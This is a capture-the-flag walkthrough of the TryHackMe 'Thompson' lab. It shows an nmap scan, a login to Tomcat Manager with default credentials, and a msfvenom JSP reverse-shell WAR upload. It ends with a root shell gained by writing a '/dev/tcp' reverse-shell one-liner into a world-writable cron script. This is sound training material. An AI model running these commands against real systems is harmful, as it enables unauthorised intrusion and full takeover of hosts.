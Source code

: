 ```yaml
---
layout: post
title: Thompson
subtitle: TryHackME - Thompson
description: Enumerate services, scan  ports,upload shell, and escalate privileges to capture flags.
image: https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png
optimized_image: https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png
tags:
  - TryHackME
  - Privilege Escalation
  - Find Flags
  - Cron Job
author: Mustafa Altayeb
date: 2025-10-13 00:00
paginate: true
---
```


# Thompson
[Thompson](https://tryhackme.com/room/bsidesgtthompson)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/f5e35bf1d933a9b45077e5388635a593.png)

## Objectives
1. Scan with Nmap
2. Enumerate Web to find interesting info 
3. Find input accept files 
4. Gain access with a reverse shell
5. Privilege escalation with Cron Job
6. Capture 2 flag

## Reconnaissance

### Nmap Scan
Port scan:
```bash
nmap -p- -T4 -sCV -oA Nmap_Thompson 10.10.34.161
```

**Key Findings**:
- **Port 22**:   OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 .
- **Port 8009**: ajp13   Apache Jserv (Protocol v1.3)
- **Port 8080**: Apache Tomcat 8.5.5

## Web Enumeration

**Port 8009**: no actions .
**Port 8080**: Running tomcat :

![](/assets/TryHackMeRoomsImage/Thompson/image.png)

- After clicking on `Manager App` it's alerted me to sigin in with login username and password :

![](/assets/TryHackMeRoomsImage/Thompson/image1.png)

- By trying incorrect login credential it's redirect me to page 401 `Unauthorized access`
and find login credential on this response :


[](/assets/TryHackMeRoomsImage/Thompson/image2.png)

Login credential is `user name : tomcat && password is s3cret ` 

- Login with this credential and get web page ` Tomcat Web Application Manager` :

![](/assets/TryHackMeRoomsImage/Thompson/image3.png)

- Enum this page and I find `Input` that accept files with extension `.war` 

![](/assets/TryHackMeRoomsImage/Thompson/image4.png) 

- Create `Reverse Shell` using msfvenom :

- By search about `.war` extension i find it's running Java web server :
![](/assets/TryHackMeRoomsImage/Thompson/image5.png) 

>|**msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.109.66 LPORT=9999 -f war > shell.war**



## Gain Initial Access 

- Upload Our Shell to site and Deploy 
- Start Listen with Netcat :
>|**nc -nlvp 9999**
- Access the shell by click on it .

```js
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~/filetodelete/thm_machines/Thompson  nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.34.161] 32838
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
- Now we gain access but limited shell
- Upgrade The Shell Using Python :
>|**python -c 'import pty; pty.spawn("/bin/bash")'**

```js
python -c 'import pty; pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```
### First flag 

```js
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39400c90bc683a41a.............
```

## Privilege Escalation
- I searched for binary bits but not work 
- After some time i search for cron job:

```js
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```
- File Called id.sh we have Privilege to write on it and it's execute with root privilege 

```js
tomcat@ubuntu:/home/jack$ ls -lah
ls -lah
total 48K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 .
drwxr-xr-x 3 root root 4.0K Aug 14  2019 ..
-rw------- 1 root root 1.5K Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3.7K Aug 14  2019 .bashrc
drwx------ 2 jack jack 4.0K Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4.0K Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Oct 13 14:50 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

- let's write our shell to get root access:
```js
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.14.109.66/8585 0>&1 " > id.sh
```

- Gain root access:
```js
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~  nc -nlvp 8585
listening on [any] 8585 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.34.161] 34958
bash: cannot set terminal process group (1091): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# 
```

## Root Flag :
```js
root@ubuntu:~# cat root.txt
cat root.txt
d89d5391984c045................
```

Finished. Happy Hacking!



<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)

---

